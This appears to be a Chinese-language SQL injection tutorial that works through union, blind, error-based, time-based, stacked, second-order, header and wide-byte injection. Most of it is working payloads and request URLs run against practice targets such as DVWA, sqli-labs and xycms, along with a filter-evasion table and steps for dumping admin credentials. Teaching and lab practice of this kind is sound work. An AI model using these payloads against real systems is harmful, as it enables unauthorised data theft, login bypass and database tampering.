# SQL注入完全指南

## 1. SQL注入概述

### 1.1 什么是SQL注入

SQL注入(SQL Injection)是一种代码注入技术，攻击者通过在用户输入中插入恶意SQL语句，使服务器执行非预期的SQL操作，从而获取、篡改或删除数据。

**核心原理**：用户输入的数据被拼接到SQL语句中执行，且未经过滤。

### 1.2 SQL注入的危害

- 获取敏感数据（用户名、密码、银行卡等）
- 绕过身份验证
- 修改或删除数据
- 读取服务器文件
- 操作系统命令执行（如通过`xp_cmdshell`）
- 获取服务器权限

---

## 2. SQL注入基础

### 2.1 注入点引入示例

在登录表单中，SQL语句可能是这样的：

```sql
select * from users where username='输入的用户名' and password='输入的密码'
```

如果在用户名处输入 `' or 1=1#`，SQL语句就变成：

```sql
select * from users where username='' or 1=1#' and password='';
```

`#`后面的内容被注释，条件永远为真，就可以绕过登录验证。

### 2.2 Union联合查询基础

`UNION`操作符用于合并两个或多个`SELECT`语句的结果集，但必须满足：
- 每个`SELECT`语句必须有相同数量的列
- 对应列的数据类型必须相似

```sql
select * from users where username='
' union select 1,'bbben',3,4,5#
' and password=';
```



> **注意**：union联合查询拼接的列数必须一致，否则会报错



### 2.3 Order By判断列数

使用`ORDER BY`可以对查询结果排序，可以用来判断当前查询有几列：

```sql
-- 升序排列
select * from users order by id;

-- 降序排列
select * from users order by id desc;
```



**安全应用**：可以用`ORDER BY N`来探查数据库列数：

```sql
order by 10  -- 正常返回，说明至少有10列
order by 11  -- 报错，说明只有10列
```



比如此网站最多id等于10，说明数据库字段有10个：



### 2.4 常用数据库函数

| 函数 | 说明 | 示例 |
|------|------|------|
| `database()` | 当前数据库名 | `select database()` |
| `user()` | 当前数据库用户 | `select user()` |
| `version()` | 数据库版本 | `select version()` |
| `@@datadir` | 数据存储路径 | `select @@datadir` |
| `concat()` | 拼接数据 | `concat(username,0x3a,password)` |
| `group_concat()` | 多行数据合并为一行 | `group_concat(DISTINCT user,0x3a,password)` |
| `concat_ws()` | 用分隔符拼接 | `concat_ws('~',username,password)` |
| `hex()` / `unhex()` | 十六进制编码/解码 | `hex('test')` |
| `ASCII()` | 获取字符ASCII码 | `ASCII('a')` |
| `CHAR()` | ASCII码转字符 | `CHAR(97)` |
| `substr()` / `substring()` | 截取字符串 | `substr(database(),1,1)` |
| `load_file()` | 读取文件 | `load_file('C:\\test.txt')` |
| `select into outfile` | 写入文件 | 需要高权限 |







---

## 3. SQL注入攻击流程

### 3.1 攻击三部曲

```
1. 寻找注入点 → 2. 确定注入类型 → 3. 提取数据
```

### 3.2 Step 1：寻找注入点

**常见注入点位置**：

- URL参数（GET请求）
- 表单数据（POST请求）
- Cookie
- HTTP请求头（User-Agent、Referer、X-Forwarded-For等）

**判断是否存在注入**：

```bash
1. 在参数中加入单引号'，观察页面是否报错或变化
2. 拼接永真条件 and 1=1，页面正常显示
3. 拼接永假条件 and 1=2，页面显示异常
```

测试示例：

```sql
select * from users where username="" or 1=1#" and password="";
select * from news where id=1 and 1=2;
SELECT * FROM comments WHERE article_id = 1 and 1=1 order by id desc;
```

### 3.3 Step 2：判断注入类型

#### 3.3.1 按数据类型分类

**数字型注入**：

```sql
-- 输入: 1 and 1=1 → 页面正常
-- 输入: 1 and 1=2 → 页面异常
select * from news where id=1 and 1=2;
-- 用户输入直接拼接，不需要引号闭合
```

防御方式：使用`is_numeric()`等函数判断是否为数字

**字符型注入**：

```sql
-- 用户输入被单引号或双引号包围
-- 输入: ' or 1=1#
select * from users where username='' or 1=1#' and password='';

-- 需要闭合前面的引号，注释后面的引号
-- 不给用#号时，可以用 --空格
select * from users where username='' or 1=1 -- ' and password='';

-- 不给用--的情况
select * from users where username='' or 'a' = 'a' or 'a' = 'a' and password='';
```

**绕过过滤技巧**：

| 过滤内容 | 绕过方法 |
|---------|---------|
| 过滤`or` | 大小写`oR`/`Or`、双写`oorr`、使用`||`代替 |
| 过滤`and` | 大小写`aNd`、双写`anandd`、使用`&&`代替 |
| 过滤`select` | 大小写`SeLeCt`、双写`seselectlect` |
| 过滤空格 | `/**/`、`%09`(Tab)、`%0a`(换行) |
| 过滤引号 | 使用`char()`函数转换ASCII码 |

#### 3.3.2 按请求类型分类

**GET请求**：

- 参数在URL中：`?key1=value1&key2=value2`
- 注意：`#`号如果不编码会被当成锚点，服务器不会收到
- 服务器会自动删除末尾空格

**POST请求**：

| Content-Type | 说明 |
|-------------|------|
| `application/x-www-form-urlencoded` | 普通表单提交，`key1=value1&key2=value2`格式 |
| `application/json` | JSON格式数据 |
| `multipart/form-data` | 文件上传 |

**URL编码**：

- 特征：`%xx` 后面是16进制数
- `+`号会被认为空格
- `#`号在URL中表示锚点，需要编码为`%23`





### 3.4 Step 3：提取数据

通过注入点获取数据的步骤：

```
1. 获取数据库名
2. 获取表名
3. 获取列名
4. 获取具体数据
```

---

## 4. SQL注入分类详解

### 4.1 Union联合注入

**适用场景**：页面有回显位置，可以直接显示查询结果

**注入步骤**：

```bash
# 1. 判断列数
order by 10  -- 正常
order by 11  -- 报错 → 说明有10列

# 2. 确定回显位置（使用-1让前面查询为空）
union select 1,2,3,4,5,6,7,8,9,10

# 3. 获取数据库名
union select 1,2,3,4,5,6,7,database(),9,10

# 4. 获取表名（使用group_concat合并）
union select 1,2,3,4,5,6,7,group_concat(table_name),9,10 
from information_schema.tables where table_schema='数据库名'

# 5. 获取列名
union select 1,2,3,4,5,6,7,group_concat(column_name),9,10 
from information_schema.columns where table_name='表名'

# 6. 获取数据
union select 1,2,3,4,5,6,7,concat(username,0x3a,password),9,10 
from 表名 limit 0,1
```

**实战示例（xycms靶场）**：

```bash
# 判断列数
/showproducts.php?id=13 order by 10

# 确定回显位置，第8列可显示
/showproducts.php?id=-13 union select 1,2,3,4,5,6,7,database(),9,10
# 返回：xycms

# 获取表名
/showproducts.php?id=-13 union select 1,2,3,4,5,6,7,
group_concat(table_name),9,10 
from information_schema.tables where table_schema='xycms'
# 返回：common,xy_pro,manage_user,gbook,down_fl,xy_case,xy_zp,xy_download,menu,news,news_fl,config,pro_fl

# 获取manage_user表的列名
/showproducts.php?id=-13 union select 1,2,3,4,5,6,7,
group_concat(column_name),9,10 
from information_schema.columns where table_name='manage_user' and table_schema='xycms'
# 返回：id,m_name,m_pwd,c_date

# 获取数据
/showproducts.php?id=-13 union select 1,m_name,3,4,5,6,7,m_pwd,9,10 
from manage_user limit 0,1

# 使用concat合并为一列
/showproducts.php?id=-13 union select 1,2,3,4,5,6,7,
concat(m_name,'~',m_pwd),9,10 
from manage_user limit 0,1
# 返回：admin~21232f297a57a5a743894a0e4a801fc3
```

**information_schema数据库**：

MySQL系统数据库，存储整个数据库系统的元数据：

- `information_schema.tables`：表信息
  - `table_schema`：数据库名
  - `table_name`：表名

```sql
-- 查询某数据库的所有表
select table_name from information_schema.tables where table_schema='blog';

-- 等同于
show tables;
```



- `information_schema.columns`：列信息
  - `column_name`：列名
  - `table_name`：表名

```sql
-- 查询某表的所有列
select column_name from information_schema.columns 
where table_name='users' and table_schema='blog';
```

### 4.2 布尔盲注(Blind SQL Injection)

**适用场景**：页面没有回显位置，只能通过True/False判断

**原理**：根据页面返回的不同状态（正常/异常/不同内容）判断SQL条件的真假

**注入方法**：

```bash
# 基本格式：通过substr截取+ascii转换+二分查找
' or (select substr(database(),1,1))='d'--+
&Submit=Submit#

# 获取数据库名（逐字符判断）
' or ascii(substr(database(),1,1))>100--+
' or ascii(substr(database(),1,1))<122--+
-- 最终确定第一个字符是'd'(100)
```

**实战示例（DVWA靶场）**：



```bash
# 判断数据库名
/vulnerabilities/sqli_blind/?id=
' or (select ascii(substr(database(),1,1)))>100--+
&Submit=Submit#

# 逐字符判断，最终得出数据库名：dvwa

# 获取表名
/vulnerabilities/sqli_blind/?id=
' or (select substr(group_concat(table_name),1,1) 
from information_schema.tables where table_schema='dvwa')='d'--+
&Submit=Submit#
# 返回：guestbook,users
```



> **工具辅助**：可以使用Yakit工具进行自动化爆破，大大加快盲注速度

### 4.3 报错注入

**适用场景**：页面会显示SQL报错信息

**原理**：利用特定函数制造错误，将查询结果通过错误信息返回

#### 4.3.1 updatexml()报错

```sql
-- updatexml()用于更新XML，如果路径以特殊字符开头会报错
-- 语法：updatexml(xml, xpath, new_xml)
select 1,2,updatexml(1,concat("~",database()),1),4;
-- 报错：ERROR 1105 (HY000): XPATH syntax error: '~blog'
```

**实战示例（DVWA）**：

```bash
# 判断是否存在报错注入
http://target/vulnerabilities/sqli/?id=1'
and updatexml(1,concat('~',(
select database()
)),1)--+
&Submit=Submit#

# 获取数据库名
and updatexml(1,concat('~',database()),1)--+

# 获取表名
and updatexml(1,concat('~',(
select group_concat(table_name) from information_schema.tables 
where table_schema=database()
)),1)--+

# 获取列名
and updatexml(1,concat('~',(
select group_concat(column_name) from information_schema.columns 
where table_name='users' and table_schema=database()
)),1)--+
# 结果：user_id,first_name,last_name,us（只显示32位）

# 使用substr获取完整内容
and updatexml(1,concat('~',(
select substr(group_concat(column_name),25,32) from information_schema.columns 
where table_name='users' and table_schema=database()
)),1)--+
# 结果：name,user,password,avatar,last_

# 获取数据
and updatexml(1,concat('~',(
select group_concat(concat(user,'~',password)) from users
)),1)--+
```

> **注意**：updatexml()报错内容最多显示32位，需要用substr截取

#### 4.3.2 floor()报错

```sql
-- 原理：利用rand()随机函数和group by产生主键冲突
select 1 from (select count(*),(concat('~',(select database()),'~',floor(rand(0)*2)))a 
from information_schema.tables group by a)x;
-- 报错：Duplicate entry '~blog~1' for key 'group_key'
```

**实战用法**：

```bash
# 获取数据库名
and (select 1 from (select count(*),(concat('~',(
select database()
),'~',floor(rand(0)*2)))a from information_schema.tables group by a)x)--+

# 获取表名（使用limit逐条获取）
and (select 1 from (select count(*),(concat(floor(rand(0)*2),'~',(
select table_name from information_schema.tables 
where table_schema=database() limit 0,1
)))a from information_schema.tables group by a)x)--+

# 获取列名
and (select 1 from (select count(*),(concat(floor(rand(0)*2),'~',(
select column_name from information_schema.columns 
where table_name='users' and table_schema=database() limit 4,1
)))a from information_schema.tables group by a)x)--+

# 获取数据
and (select 1 from (select count(*),(concat(floor(rand(0)*2),'~',(
select concat(user,'~',password) from users limit 0,1
)))a from information_schema.tables group by a)x)--+
```



#### 4.3.3 其他报错函数

```sql
-- extractvalue() - 类似updatexml
select extractvalue(1,concat(0x7e,(select database()),0x7e));

-- exp() - 利用数学溢出
select exp(~(select * from (select database())a));
```

### 4.4 延时注入(Time-based Blind)

**适用场景**：页面对正确/错误请求返回完全相同，无法通过内容判断

**原理**：使用`sleep()`或`benchmark()`函数，通过响应时间的长短判断条件真假

```bash
# 基本格式：如果条件为真则延时
http://target/?id=1' and if(
(select substr(database(),1,1) = 'd'),
sleep(10),0)--+
&Submit=Submit#

# 使用benchmark()制造延时（不依赖sleep函数）
select benchmark(50000000,md5('test'));

# 延时注入模板
select if(1=1, benchmark(50000000,md5(1)), 1)
```

**判断方法**：

- 条件为真：响应时间明显变长（如10秒）
- 条件为假：响应时间正常

### 4.5 堆叠注入(Stacked Queries)

**适用场景**：数据库支持多语句执行（使用`;`分隔）

```sql
-- 使用;分隔多条语句，都会执行
select * from users;show databases;

-- 结果会返回users表数据 + 所有数据库名
```

**PHP环境判断**：

| 函数 | 是否支持堆叠 |
|-----|-------------|
| `mysqli_query()` | ❌ 不支持 |
| `mysqli_multi_query()` | ✅ 支持 |

```bash
# 在sqli-labs第38关：通过堆叠注入插入新用户
/Less-38/?id=1' order by 3 --+

/Less-38/?id=-1' union select 1,2,3 --+

/Less-38/?id=-1' union select 1,database(),3 --+

/Less-38/?id=-1' union select 1,(
select group_concat(table_name) from information_schema.tables where table_schema=database()
)
,3 --+

/Less-38/?id=-1' union select 1,(
select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'
)
,3 --+

/Less-38/?id=-1' ;
insert into users(id,username,password) values(1001,'bbben','112233')
,3 --+
```

> **使用场景**：
> - 数据导入时
> - 网站初始化
> - select语句中的子查询执行insert操作

### 4.6 二次注入(Second-Order Injection)

**原理**：恶意数据在第一次存入数据库时被转义，但在第二次使用时（从数据库取出）未经过滤直接拼接到SQL语句中

```
第一次：恶意数据 → 过滤/转义 → 存入数据库
第二次：从数据库取出 → 未过滤 → 拼接到SQL语句 → 执行
```

**实战示例（sqli-labs第24关）**：

```bash
# 1. 注册用户名：admin'#
# 2. 登录该用户
# 3. 修改密码：此时服务器从session取用户名（admin'#），不经过过滤
# 4. 执行的SQL：update users set password='新密码' where username='admin'#'
# 5. admin的密码被修改了！
```

### 4.7 HTTP头部注入

当用户可控的数据出现在HTTP请求头中时，也可以进行SQL注入。

**常见注入点**：

- `User-Agent`
- `Referer`
- `X-Forwarded-For`（客户端真实IP）
- `Cookie`

**示例**：

```sql
-- User-Agent注入
' or updatexml(1,concat(0x7e,(select user()),0x7e),1) or '1'='1

-- Referer注入
' or (select count(*) from information_schema.tables where table_schema=database() and ascii(substr(database(),1,1))>100)='1' or '1'='1

-- Cookie注入
Cookie: user=admin' and 1=1#
```

### 4.8 宽字节注入

**原理**：为了防止SQL注入，字符串逃逸，会配置GPC（Get/Post/Cookie），核心原理就是在特殊符号前加上转义符号`\`，这样就无法让引号发挥原本的作用。但如果字符编码不匹配，如果开启GPC，`\'`编码后就是`%5c%27`，但如果恶意提交原始数据是`%df%27`，在GPC添加转义符号后，就变成`%df%5c%27`，在GBK编码中`%df%5c`恰巧是一个汉字`運`，那么引号就不受转义符影响了。

**实战示例（sqli-labs第32关）**：

```bash
# 使用%df在引号前，可以逃过被转义
/Less-32/?id=99999%df' union select 1,
(select database())
,3 --+
```

